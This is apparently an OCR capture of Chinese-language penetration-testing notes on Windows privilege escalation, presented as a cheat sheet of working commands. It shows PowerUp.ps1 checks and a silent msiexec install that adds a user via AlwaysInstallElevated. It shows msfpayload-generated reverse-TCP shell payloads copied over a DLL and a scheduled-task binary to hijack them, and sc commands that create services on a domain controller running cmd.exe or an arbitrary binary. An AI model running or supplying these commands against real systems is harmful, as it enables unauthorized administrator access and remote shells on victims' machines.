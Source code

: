 ```
powershell -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('c:/PowerUp.ps1');Restore-ServiceBinary -ServiceName 'OmniServers'

#漏洞利用原理：该漏洞产生的原因是因为用户开启了windows installer特权安装功能:
powershell -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('c:/PowerUp.ps1'); Get-RegistryAlwaysInstallElevated
#检测注册表是否设置，得到true【好像False也能继续】
运行Write-UserAddMSI模块，运行后生成文件UserAdd.msi
#普通用户运行：
msiexec /q /i UserAdd.msi
```

劫持提权:

```
有的服务程序路径包含空格, 且路径没有被引号包含, 利用Windows寻找可执行文件的顺序, 劫持启动自定义程序。
http://www.greyhathacker.net/?p=738
http://www.freebuf.com/vuls/87463.html

echo %path%
accesschk.exe -dqv "C:\Python27"
cacls "C:\Python27"

msfpayload windows/shell_reverse_tcp lhost='127.0.0.1' lport='9988' D > 
/root/Desktop/evil.dll
copy evil.dll C:\Python27\wlbsctrl.dll
#重启生效

#也可以看看计划任务里有没有可疑目录
#比如出现了
#Task To Run:        E:\GrabLogs\tftp.exe 10.1.1.99 GET log.out  E:\GrabLogs\Logs\log.txt
accesschk.exe -dqv "E:\GrabLogs"
msfpayload windows/shell_reverse_tcp lhost='127.0.0.1' lport='9988' O
msfpayload windows/shell_reverse_tcp lhost='127.0.0.1' lport='9988' R | msfencode -t
exe > /root/Desktop/evil-tftp.exe
copy evil-tftp.exe E:\GrabLogs\tftp.exe

#命令行下第一次运行需要同意一个许可，如果不想出现那个提示窗口，则可以执行：
accesschk.exe /accepteula

#找弱权限目录
accesschk.exe -uwdqs Users c:\
accesschk.exe -uwdqs "Authenticated Users" c:\

##找弱权限文件
accesschk.exe -uwqs Users c:\*.*
accesschk.exe -uwqs "Authenticated Users" c:\*.*


SC创建服务执行
1、系统权限(其中test为服务名)
sc \\DC1 create test binpath= c:\cmd.exe
sc \\DC1 start test
sc \\DC1 delete test

2.指定用户权限启动
sc \\DC1 create test binpath = "c:\1.exe" obj= "centoso\administrator" passwrod= test
sc \\DC1 start test

```
